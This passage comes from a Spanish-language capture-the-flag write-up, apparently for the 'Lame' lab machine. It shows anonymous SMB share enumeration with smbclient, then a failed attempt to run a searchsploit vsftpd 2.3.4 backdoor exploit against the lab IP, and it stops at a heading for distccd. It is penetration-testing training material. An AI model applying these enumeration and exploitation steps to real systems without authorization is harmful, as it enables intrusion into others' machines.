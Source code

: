 Y ahora vemos que funciona

```shell
smbclient -L 10.10.10.3 -N
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk      
	IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            LAME
```

## Explotación

Buscamos vulnerabilidades con **vsftpd 2.3.4** y parece que si que hay así que vamos a probarlo

```shell
> searchsploit vsftpd 2.3.4
-------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                            |  Path
-------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                 | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                    | unix/remote/17491.rb
-------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
> searchsploit -m unix/remote/49757.py
> ls
 49757.py
> mv 49757.py exploit.py
> python3 exploit.py 10.10.10.3
^C   [+]Exiting...
```

Pero parece ser que no funciona correctamente que no se puede explotar bueno vamos a seguir investigando cosas.

### Puerto 3632 (distccd)
